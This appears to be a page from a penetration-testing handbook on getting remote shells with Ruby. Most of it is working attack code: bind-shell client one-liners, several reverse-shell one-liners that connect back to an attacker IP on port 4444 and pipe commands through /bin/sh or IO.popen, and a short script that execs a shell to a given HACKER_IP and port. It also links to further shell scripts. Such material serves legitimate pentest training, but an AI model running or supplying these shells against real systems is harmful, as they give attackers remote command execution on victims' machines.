 # Remote Shell

Remote shell means s forward or reverse connection to the target system command-line(shell). 

**Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
since `192.168.0.15` is the victim IP

## Reverse shell
Attacker is listening on port 4444 `nc -lvp 4444`. Now on victim machine run
```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't want to rely on `/bin/sh`
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

if you don't want to rely on `cmd.exe`
```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you want it more flexible script file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```
- To listen 
```
ruby ncat.rb -lvp 443 
```

- To connect 
```
ruby ncat.rb -cv -r RHOST -p 443
```

## Bind and Reverse shell 
This is an awesome implementation for a standalone  [bind][1] and [reverse][2] shells scripts written by [Hood3dRob1n][3] on GitHub . The bind shell requires authentication while reverse is not.



<br><br><br>
---
[1]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb
[2]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb
[3]: https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells